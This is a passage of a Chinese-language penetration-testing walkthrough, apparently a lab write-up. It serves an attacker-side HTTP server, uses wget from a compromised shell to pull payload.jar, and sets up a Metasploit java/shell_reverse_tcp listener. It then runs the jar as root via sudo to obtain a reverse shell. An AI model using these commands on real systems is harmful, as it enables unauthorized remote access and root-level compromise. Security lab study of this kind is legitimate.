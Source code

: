 在目录 **home/xxb1** 开启临时服务器

```
python2 -m SimpleHTTPServer 1234 
```

![image-20220325103654560](https://gitee.com/xxb667/img/raw/master/img/image-20220325103654560.png)

## 4.2 靶机下载

切换到我们刚才获得的shell界面

然后执行下列命令

```
wget http://192.168.81.131:1234/payload.jar
```

已经成功下载文件

![image-20220325103920953](https://gitee.com/xxb667/img/raw/master/img/image-20220325103920953.png)

**注意**

- 若下载不成功

- 则切换文件目录到 **/usr/local/tomcat9/webapps**

- 命令

- ```
  cd /usr/local/tomcat9/webapps
  ```

- 然后再进行下载就可以了



## 4.3 MSF执行jar包

MSF进行监听

```
msfconsole
use exploit/multi/handler
set payload java/shell_reverse_tcp
set LHOST 192.168.81.131
set LPORT 7777
exploit
```

切换到我们刚才获得的shell界面

执行jar包

```
sudo -u root java -jar payload.jar
```

![image-20220325104739357](https://gitee.com/xxb667/img/raw/master/img/image-20220325104739357.png)

返回MSF界面

已成功反弹新的shell

![image-20220325104911921](https://gitee.com/xxb667/img/raw/master/img/image-20220325104911921.png)



```